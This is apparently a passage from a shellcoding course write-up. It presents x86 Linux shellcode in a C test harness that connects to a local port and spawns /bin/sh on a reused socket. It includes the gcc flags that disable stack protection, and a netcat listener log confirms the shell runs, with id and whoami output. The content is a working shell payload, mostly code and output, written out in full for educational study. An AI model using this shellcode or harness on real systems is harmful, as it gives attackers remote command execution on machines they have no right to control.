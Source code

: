 unsigned char code[] = \
"\x31\xdb\x53\x89\xe6\x6a\x40\xb7\x0a\x53\x56\x53\x89\xe1\x86"
"\xfb\x66\xff\x01\x6a\x66\x58\xcd\x80\x81\x3e\x66\x6a\x48\x68"
"\x75\xf0\x5f\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79"
"\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";

void main(int argc, char *argv[])
{

    // START block of code of code taken from assignment n.2

    int client_socket_fd;
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &amp;client_address.sin_addr);
    client_address.sin_port = htons(4444);
    connect(client_socket_fd, (struct sockaddr *)&amp;client_address, sizeof(client_address));

    // END block of code of code taken from assignment n.2

    int (*ret)() = (int(*)())code;
    ret();
}
</code></pre><p>To compile it:</p><pre><code class="language-bash">gcc -w -fno-stack-protector -z execstack file.c
</code></pre><p>It worked as expected, spawning a reverse shell in the other window, where I set up the netcat listener:</p><pre><code class="language-bash">rbct@slae:~$ nc -nvl 4444
# fjHh
# Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
whoami
# rbct
exit
rbct@slae:~$ 
</code></pre><p>This type of shellcode would be used in cases where you've already set up a connection to a TCP socket, and you have control over it, so you're able to send the data desired, and most importantly the first 4 bytes specified in the shellcode.</p>